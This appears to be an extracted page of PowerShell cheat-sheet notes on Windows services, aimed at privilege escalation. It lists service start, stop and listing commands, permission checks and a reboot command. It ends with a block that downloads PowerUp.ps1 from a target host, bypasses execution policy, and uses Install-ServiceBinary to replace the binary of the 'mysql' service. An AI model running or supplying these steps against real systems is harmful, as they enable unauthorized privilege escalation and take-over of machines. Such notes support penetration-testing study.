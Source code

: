 ```powershell
net start $SERVICE_NAME # Start service 
net stop $SERVICE_NAME # Stop service
```

```powershell
sc.exe start $SERVICE_NAME # Start service
sc.exe stop $SERVICE_NAME # Stop service
```

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'} # List all installed services (like services.msc)
```

```powershell
icacls $FILE_PATH # Print permissions
```

```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'ServiceName'} # Print start mode of a service
```

If the service is set to `Auto`, restart the machine with `shutdown /r /t 0`.

```powershell
iwr -uri http://$TARGET/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
Install-ServiceBinary -Name 'mysql' # Can don't work but be exploitable
```